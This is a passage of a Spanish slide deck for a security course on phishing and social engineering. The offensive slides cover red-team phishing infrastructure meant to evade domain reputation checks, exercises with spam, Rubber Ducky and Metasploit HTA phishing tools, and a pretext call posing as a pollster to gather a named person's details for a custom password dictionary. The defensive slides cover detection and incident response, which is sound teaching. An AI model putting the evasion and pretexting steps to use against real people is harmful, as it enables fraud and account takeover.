\begin{center}
\includegraphics[width=\textwidth,height=0.68\textheight,keepaspectratio]{img/sl070_1.jpg}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Phishing}
\small
\lead{Red Team}
  \begin{itemize}
  \item En un ejercicio de Red Team, un proceso clave es preparar una campaña de ingeniería social, normalmente de spear phishing.
  \item ¿Por qué?
    \begin{itemize}
    \item Si un Red Team intenta simular un ataque avanzado (una APT) y estas se apoyan siempre en vectores basados en ingeniería social, lo ideal es replicarlo para valorar cómo se comporta la empresa: tanto los empleados, en cuanto a concienciación, como las medidas de protección y detección de este tipo de ataques (entorno Blue Team).
    \end{itemize}
  \item En un Red Team, diseñar una infraestructura eficiente es crítico para el éxito de la campaña. A modo de resumen, sería necesario:
    \begin{itemize}
    \item Crear redirectors (VPS, hosts, servidores dedicados o aplicaciones en plataformas como servicio).
    \item Adquirir un dominio que parezca lo más real posible en el que alojar la web de phishing.
    \item Comprar dominios que fueron legítimos pero que están expirados (\href{https://www.expireddomains.net}{expireddomains.net} o \href{https://github.com/minisllc/domainhunter}{domainhunter}); son útiles para buscar dominios que no sean detectados como ilegítimos por sistemas BlueCoat/WebPulse, IBM X-Force o Cisco Talos.
    \item Ajustar los DNS para que apunten al dominio.
    \item Configurar SPF, DKIM y DMARC del dominio propio para que los correos superen la autenticación en destino.
    \item Crear la plantilla de phishing (herramientas: \href{https://www.iredmail.org/}{iRedMail}, \href{https://getgophish.com/}{gophish}, etc.).
    \item Eliminar de las cabeceras de los correos cualquier rastro que pueda delatar la campaña.
    \end{itemize}
  \item \href{https://github.com/bluscreenofjeff/Red-Team-Infrastructure-Wiki}{Red Team Infrastructure Wiki}
  \end{itemize}
\end{frame}

\begin{frame}{Ejercicio}
\small
\begin{center}
\includegraphics[width=0.52\textwidth,height=0.46\textheight,keepaspectratio]{img/sl085_1.jpg}
\end{center}
  \begin{itemize}
  \item Realiza cualquier ataque de ingeniería social que esté incluido en la herramienta SET, por ejemplo el envío de spam.
    \begin{itemize}
    \item Otras herramientas para enviar spam: \href{https://github.com/MazenElzanaty/EmBomber}{EmBomber}.
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}{Ejemplo-5: USB Malicioso}
\small
  \begin{itemize}
  \item Los atacantes dejan dispositivos USB aparentemente inofensivos en lugares estratégicos para que las víctimas los encuentren.
  \item Ejemplo: un empleado encuentra un USB en el aparcamiento y lo conecta a su ordenador, sin saber que contiene malware.
  \item Destacamos la importancia de la prevención y la concienciación en esta etapa para evitar ser víctima de ataques de ingeniería social: no conectar dispositivos a nuestros ordenadores si desconocemos su procedencia.
  \item El Rubber Ducky se disfraza de USB legítimo, pero actúa como un dispositivo de entrada (teclado) que inyecta comandos maliciosos.
  \item Cuando alguien conecta un Rubber Ducky, se ejecutan en el equipo de la víctima los comandos maliciosos programados.
  \item A través de estos comandos se puede descargar e instalar malware, tomando el control absoluto del dispositivo.
  \end{itemize}
\end{frame}

\begin{frame}{Ejercicio}
\small
\begin{center}
\includegraphics[width=0.52\textwidth,height=0.46\textheight,keepaspectratio]{img/sl069_1.jpg}
\end{center}
  \begin{itemize}
  \item Pide al profesor un badUSB y realiza un ataque de tipo \href{https://shop.hak5.org/products/usb-rubber-ducky}{Rubber Ducky}.
  \end{itemize}
\end{frame}

\section{Protección frente a Phishing}

\begin{frame}[allowframebreaks]{Protección frente a Phishing}
\small
\lead{Comprobación de correo phishing mediante SPF, DKIM y DMARC:}
  \begin{itemize}
  \item Son protocolos de autenticación de correo electrónico que se utilizan para ayudar a prevenir el fraude y proteger a los usuarios de recibir correos fraudulentos o maliciosos.
  \item \textbf{SPF} (\emph{Sender Policy Framework}, \href{https://www.rfc-editor.org/rfc/rfc7208}{RFC 7208}) permite a un receptor de correo verificar que el correo entrante de un dominio está siendo enviado desde un servidor autorizado por los administradores de ese dominio.
    \begin{itemize}
    \item Herramientas: \href{https://mxtoolbox.com/spf.aspx}{mxtoolbox} \textbar{} \href{https://www.mimecast.com/products/dmarc-analyzer/spf-record-check/}{mimecast}
    \end{itemize}
  \item \textbf{DKIM} (\emph{DomainKeys Identified Mail}, \href{https://www.rfc-editor.org/rfc/rfc6376}{RFC 6376}) permite a los receptores verificar que los mensajes entrantes son auténticos y no han sido alterados en tránsito, añadiendo una firma digital a la cabecera del mensaje que genera el servidor de correo remitente.
    \begin{itemize}
    \item Herramientas: \href{https://mxtoolbox.com/dkim.aspx}{mxtoolbox} \textbar{} \href{https://www.mimecast.com/products/dmarc-analyzer/dkim-check/}{mimecast}
    \end{itemize}
  \item \textbf{DMARC} (\emph{Domain-based Message Authentication, Reporting \& Conformance}, \href{https://www.rfc-editor.org/rfc/rfc7489}{RFC 7489}) se basa en SPF y DKIM y permite a los propietarios de dominios especificar cómo deben tratarse sus correos si no superan las comprobaciones (\cmd{p=none}, \cmd{p=quarantine}, \cmd{p=reject}), además de recibir informes.
    \begin{itemize}
    \item Herramientas: \href{https://mxtoolbox.com/dmarc.aspx}{mxtoolbox} \textbar{} \href{https://www.mimecast.com/products/dmarc-analyzer/dmarc-check/}{mimecast}
    \end{itemize}
  \item Complementos: \href{https://www.rfc-editor.org/rfc/rfc8461}{MTA-STS (RFC 8461)} para forzar TLS entre servidores de correo.
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Protección frente a Phishing}
\small
\lead{Herramientas para verificar la información de un correo}
  \begin{itemize}
  \item Email Header Analysis
    \begin{itemize}
    \item El análisis de cabeceras de correo electrónico consiste en examinar los metadatos ocultos de un mensaje para conocer su ruta técnica, origen real y estado de autenticación.
    \item Permite detectar fraudes de suplantación de identidad y phishing.
    \item Qué datos revela:
      \begin{itemize}
      \item Ruta de servidores: muestra los saltos o equipos intermedios por los que pasó el correo desde el emisor hasta el receptor.
      \item IP de origen: identifica la dirección real desde donde se envió el mensaje.
      \item Protocolos de seguridad: verifica el cumplimiento de SPF, DKIM y DMARC para comprobar si el dominio fue falsificado.
      \end{itemize}
    \item Herramientas:
      \begin{itemize}
      \item \href{https://mxtoolbox.com/EmailHeaders.aspx}{MXToolbox}
      \item \href{https://mha.azurewebsites.net/}{Microsoft Message Header Analyzer}
      \item \href{https://mailheader.org/}{MailHeader}
      \end{itemize}
    \end{itemize}

  \item URL / IP Reputation Check
    \begin{itemize}
    \item Es un análisis de seguridad que evalúa la fiabilidad y el historial de una dirección IP o de un enlace.
    \item Su propósito es detectar si se usan para enviar spam, alojar virus o cometer fraudes, permitiendo a los sistemas bloquear conexiones peligrosas a tiempo.
    \item Bloquea amenazas, permitiendo a los cortafuegos y servidores de correo rechazar ataques, troyanos o phishing.
    \item Previene el fraude, porque detecta accesos sospechosos en páginas web de tiendas o bancos.
    \item Cómo funciona:
      \begin{itemize}
      \item Consulta de bases de datos: revisa si la IP o el enlace están en listas negras globales de seguridad.
      \item Análisis de comportamiento: observa si el sitio o la red enviaron contenido malicioso antes.
      \item Cálculo de riesgo: da una puntuación que mide el peligro de recibir tráfico de ese origen.
      \end{itemize}
    \item Herramientas:
      \begin{itemize}
      \item \href{https://www.virustotal.com/gui/home/search}{VirusTotal}
      \item \href{https://urlscan.io/}{URLScan}
      \item \href{https://www.talosintelligence.com/}{Talos Intelligence}
      \item \href{https://www.abuseipdb.com/}{AbuseIPDB}
      \item \href{https://ipinfo.io/}{IPinfo}
      \item \href{https://checkphish.ai/}{CheckPhish}
      \end{itemize}
    \end{itemize}

  \item File / Attachment / Malware Analysis
    \begin{itemize}
    \item Estudia un archivo o documento sospechoso para saber si es peligroso, cómo actúa y qué daño puede causar en un equipo o red.
    \item Realiza dos tipos de análisis:
      \begin{itemize}
      \item Análisis estático: se revisa el archivo sin ejecutarlo. Se leen sus propiedades, código interno, textos ocultos y firmas digitales para buscar indicios de peligro.
      \item Análisis dinámico: se ejecuta el archivo en un entorno seguro y aislado, conocido como sandbox. Se observa su comportamiento real: qué archivos crea, qué cambios hace en el sistema y a qué servidores externos se conecta.
      \end{itemize}
    \item Herramientas:
      \begin{itemize}
      \item \href{https://www.virustotal.com/gui/home/search}{VirusTotal (file hash check)}
      \item \href{https://any.run/}{ANY.RUN}
      \item \href{https://www.hybrid-analysis.com/}{Hybrid Analysis}
      \item \href{https://www.joesandbox.com/\#windows}{Joe Sandbox}
      \item \href{https://tria.ge/dashboard}{Triage}
      \item \href{https://github.com/kevoreilly/CAPEv2}{CAPE Sandbox}
      \item \href{https://www.vmray.com/try-vmray-products/}{VMRay}
      \end{itemize}
    \end{itemize}

  \item Whois domain record
    \begin{itemize}
    \item Es un registro público que almacena información detallada sobre un nombre de dominio de Internet o una dirección IP.
    \item Funciona como un directorio digital que permite saber quién está a cargo de un sitio web y cuándo expira su uso.
    \item Analizar el historial del Whois revela inconsistencias de inmediato; por ejemplo:
      \begin{itemize}
      \item Los ataques de phishing suelen utilizar infraestructuras temporales que se dan de alta pocos días o semanas antes de lanzar la campaña fraudulenta.
      \item Si el dominio que suplanta a una multinacional ha sido comprado en un registrador comercial de bajo coste que permite pagos anónimos, hay que desconfiar de inmediato.
      \item Si una organización gubernamental o una gran empresa utiliza servidores DNS desconocidos, gratuitos o sospechosos, es una señal de alerta de que el dominio está bajo el control de un tercero.
      \item Si una empresa local de España tiene registrado su dominio en un país sin ninguna justificación comercial, es un indicador de riesgo.
      \end{itemize}
    \item Herramientas:
      \begin{itemize}
      \item \href{https://centralops.net/co/}{CentralOps}
      \item \href{https://whois.domaintools.com/}{DomainTools}
      \end{itemize}
    \end{itemize}

  \item Phishing analysis tools
    \begin{itemize}
    \item Las herramientas de análisis de phishing sirven para descomponer, examinar y clasificar correos electrónicos o enlaces sospechosos, y determinar si son maliciosos o seguros.
    \item Su objetivo principal es automatizar la recolección de evidencias digitales para proteger a los usuarios y bloquear las amenazas antes de que infecten la red corporativa.
    \item Realizan de manera automatizada las fases anteriores: Email Header Analysis, URL/IP Reputation Check, File/Attachment/Malware Analysis y Whois domain record.
    \item Además realizan las siguientes acciones:
      \begin{itemize}
      \item Extraer Indicadores de Compromiso (IoC): guardan las IP, hashes de archivos y dominios del atacante para añadirlos instantáneamente a las reglas de los cortafuegos y antivirus de la empresa.
      \item Automatizar respuestas: si diez empleados reciben el mismo correo sospechoso, la herramienta unifica los reportes, analiza el patrón y permite borrar el correo de las bandejas de entrada de toda la organización con un solo clic.
      \end{itemize}
    \item Herramienta: \href{https://www.phishtool.com/}{PhishTool}
    \end{itemize}

  \item Varios
    \begin{itemize}
    \item \href{https://www.browserling.com}{Browserling} sirve como entorno de pruebas en la nube y ``sandbox'' que permite ejecutar navegadores web reales de forma remota y aislada. Permite interactuar en vivo con la página: hacer clic en los menús de la web falsa, revisar qué formularios tiene o capturar pantallas para adjuntarlas a un informe de seguridad.
    \item \href{https://www.thunderbird.net/}{Thunderbird} permite abrir ficheros \cmd{.eml} sospechosos de forma controlada e inspeccionar sus cabeceras y adjuntos.
    \item Comprobar la reputación en Google Safe Browsing.
    \item Manejar las técnicas habituales de \emph{defanging} de URL (\cmd{hxxp[s]://}, \cmd{ejemplo[.]com}) para poder compartir indicadores sin que sean clicables.
    \item Cambiar el \emph{user-agent} del navegador: muchos kits de phishing solo muestran la página falsa a móviles o a determinados países.
    \end{itemize}

  \item \href{https://www.howtogeek.com/437513/what-should-you-do-if-you-receive-a-phishing-email/}{Lectura recomendada}
  \end{itemize}
\end{frame}

\begin{frame}{Protección frente a Phishing}
\footnotesize
\lead{Señales de alerta en un correo de phishing}
\begin{columns}[t]
\begin{column}{0.48\textwidth}
  \begin{itemize}\setlength{\itemsep}{0.3em}
  \item \textbf{Urgencia y miedo}: ``su cuenta será bloqueada en 24 h''. La prisa es la bandera roja más fiable.
  \item \textbf{Remitente}: el nombre mostrado no coincide con el dominio real del \cmd{From}; dominios parecidos o subdominios engañosos (\cmd{banco.seguro-login.com}).
  \item \textbf{Enlaces}: el texto del enlace no coincide con el destino real; acortadores; \cmd{xn--} en el dominio.
  \item \textbf{Saludo genérico} o, al contrario, exceso de datos personales (spear phishing).
  \end{itemize}
\end{column}
\begin{column}{0.48\textwidth}
  \begin{itemize}\setlength{\itemsep}{0.3em}
  \item \textbf{Adjuntos inesperados}, sobre todo \cmd{.docm}, \cmd{.xlsm}, \cmd{.iso}, \cmd{.img}, \cmd{.lnk} o \cmd{.html}.
  \item \textbf{Petición fuera de proceso}: cambiar un número de cuenta, comprar tarjetas regalo, saltarse un procedimiento.
  \item \textbf{Canal inusual}: el ``director general'' escribe por WhatsApp o Teams desde un número desconocido.
  \item \textbf{Solo un teléfono}: correo sin enlaces ni adjuntos que pide llamar (callback phishing).
  \end{itemize}
\end{column}
\end{columns}
\fuente{Ante la duda: verificar por un \textbf{canal distinto} y ya conocido (nunca el teléfono o el enlace que aparece en el propio mensaje) y reportar al equipo de seguridad.}
\end{frame}

\begin{frame}{Protección frente a Phishing}
\footnotesize
\lead{¿Y si ya he picado? Respuesta ante el incidente}
\begin{columns}[t]
\begin{column}{0.5\textwidth}
\lead{\footnotesize Primeros minutos}
  \begin{itemize}\setlength{\itemsep}{0.3em}
  \item \textbf{No borrar nada}: el correo, la URL y el adjunto son la evidencia.
  \item Desconectar el equipo de la red si se ejecutó un fichero (pero \textbf{no} apagarlo: se perdería la memoria volátil).
  \item Cambiar la contraseña \emph{desde otro dispositivo limpio} y cerrar todas las sesiones abiertas.
  \item \textbf{Revocar los tokens de sesión}: cambiar la contraseña no invalida una cookie ya robada por un ataque AiTM.
  \item Avisar al banco si hubo datos de pago; solicitar el bloqueo o la retrocesión de la transferencia.
  \end{itemize}
\end{column}
\begin{column}{0.5\textwidth}
\lead{\footnotesize Después}
  \begin{itemize}\setlength{\itemsep}{0.3em}
  \item Reportar al equipo de seguridad o al CSIRT de referencia; en España, \href{https://www.incibe.es/incibe-cert}{INCIBE-CERT} y la línea gratuita \textbf{017}.
  \item Denunciar ante \href{https://www.policia.es/_es/colabora_participacion.php}{Policía Nacional} o Guardia Civil si hay perjuicio económico.
  \item Si hay datos personales de terceros afectados, valorar la notificación de \href{https://www.aepd.es/derechos-y-deberes/cumple-tus-deberes/medidas-de-cumplimiento/brechas-de-seguridad}{brecha a la AEPD}: \textbf{72~horas} (art.~33 RGPD).
  \item Comprobar la exposición en \href{https://haveibeenpwned.com/}{Have I Been Pwned}.
  \item Buscar la \emph{persistencia}: reglas de reenvío automático en el buzón, aplicaciones OAuth autorizadas y dispositivos MFA nuevos.
  \end{itemize}
\end{column}
\end{columns}
\fuente{El último punto es el que más se olvida: el atacante suele dejarse una puerta trasera en el propio correo
        (una regla que reenvía y borra) que sobrevive al cambio de contraseña.}
\end{frame}

\begin{frame}{Protección frente a Phishing}
\footnotesize
\lead{Ejemplos y práctica guiada}
  \begin{itemize}\setlength{\itemsep}{0.35em}
  \item \href{https://elhackeretico.com/investigando-un-phishing-bancario/}{Investigación de un phishing bancario} --- caso completo, muy recomendable como modelo de informe:
    \begin{itemize}\setlength{\itemsep}{0.2em}
    \item \textbf{OSINT}: geolocalización de la IP que aloja el sitio y organización propietaria.
    \item \textbf{Malware}: reputación de esa IP y familias asociadas (aparece en listas de IoC de Emotet).
    \item \textbf{Enumeración}: con \cmd{dirsearch} se localiza el propio \term{phishing kit} comprimido, olvidado en el directorio.
    \end{itemize}
  \item \href{https://derechodelared.com/diez-formas-de-detectar-phishing/}{Diez formas de detectar un phishing} --- lista de comprobación rápida para el día a día.
  \item \href{https://www.ncsc.gov.uk/guidance/phishing}{NCSC (Reino Unido) --- Phishing: guía para organizaciones}: defensa en capas y cómo medirla.
  \item \href{https://www.osi.es/es/actualidad/avisos}{OSI --- Avisos de seguridad}: campañas reales que circulan por España, con capturas. Útil para preparar simulacros creíbles.
  \end{itemize}
\fuente{Al analizar un caso real, trabajar siempre en una máquina virtual aislada y \term{defanguear} las URL
        (\cmd{hxxp[:]//}) antes de compartirlas en un informe o por chat.}
\end{frame}

\begin{frame}{Ejercicio}
\small
\begin{center}
\includegraphics[width=0.52\textwidth,height=0.46\textheight,keepaspectratio]{img/sl077_1.jpg}
\end{center}
  \begin{itemize}
  \item Resuelve esta room de TryHackMe sobre phishing: \href{https://tryhackme.com/room/phishingemails1tryoe}{phishingemails1tryoe}.
  \item Pon a prueba tu criterio con el \href{https://phishingquiz.withgoogle.com/}{test de phishing de Google/Jigsaw}.
  \end{itemize}
\end{frame}

\begin{frame}{Ejercicio}
\small
\begin{center}
\includegraphics[width=0.52\textwidth,height=0.46\textheight,keepaspectratio]{img/sl078_1.jpg}
\end{center}
  \begin{itemize}
  \item En la herramienta Metasploit se dispone de un módulo \cmd{.hta} de email phishing. Ejemplo: \href{https://www.youtube.com/watch?v=BU04m-h174g}{vídeo}.
  \end{itemize}
\end{frame}

\section{Ingeniería Social y Credenciales}

\begin{frame}{Ejemplo-6: Diccionarios a medida}
\small
  \begin{itemize}
  \item En este ejercicio, lo que se pretende es conseguir información sensible de un usuario para posteriormente generar un diccionario acorde a su perfil.
  \item Es de sobra sabido que mucha gente utiliza en sus contraseñas parte de su información personal, como la dirección, el DNI, el teléfono, sus aficiones, etc.
  \item Por tanto, si conseguimos esa información mediante ingeniería social, podemos mejorar la efectividad de un ataque de fuerza bruta basado en diccionario.
  \end{itemize}
\end{frame}

\begin{frame}{Ejemplo-6: Diccionarios a medida}
\footnotesize
  \begin{itemize}
  \item Llevamos a cabo un estudio mediante ingeniería social para obtener datos sobre la persona a la que pertenece la cuenta. La única información que conocemos del usuario de inicio es:
    \begin{itemize}
    \item Nombre de pila: Ricardo
    \item Dirección de correo: ricardogasot@rediffmail.com
    \item N.\textsuperscript{o} de teléfono: 967 999 999
    \item Intereses: política
    \end{itemize}
  \item En nuestro supuesto, vamos a aprovechar su interés en política para realizar una acción planificada que consistirá en una llamada anónima, con número oculto, haciéndonos pasar por una persona que realiza encuestas políticas para la agencia Invymark.
  \end{itemize}
\end{frame}

\begin{frame}{Ejemplo-6: Diccionarios a medida}
\vfill
\begin{columns}[c]
\begin{column}{0.48\textwidth}
\begin{center}
\includegraphics[width=\linewidth,height=0.83\textheight,keepaspectratio]{img/sl081_1.png}
\end{center}
\end{column}
\begin{column}{0.48\textwidth}
\begin{center}
\includegraphics[width=\linewidth,height=0.83\textheight,keepaspectratio]{img/sl081_2.png}
\end{center}
\end{column}
\end{columns}
\vfill
\end{frame}

\begin{frame}{Ejemplo-6: Diccionarios a medida}
\vfill
\begin{columns}[c]
\begin{column}{0.48\textwidth}
\begin{center}
\includegraphics[width=\linewidth,height=0.83\textheight,keepaspectratio]{img/sl081_3.png}
\end{center}
\end{column}
\begin{column}{0.48\textwidth}
\begin{center}
\includegraphics[width=\linewidth,height=0.83\textheight,keepaspectratio]{img/sl081_4.png}
\end{center}
\end{column}
\end{columns}
\vfill
\end{frame}

\begin{frame}{Ejemplo-6: Diccionarios a medida}
\vfill
\begin{columns}[c]
\begin{column}{0.48\textwidth}
\begin{center}
\includegraphics[width=\linewidth,height=0.83\textheight,keepaspectratio]{img/sl082_1.png}
\end{center}
\end{column}
\begin{column}{0.48\textwidth}
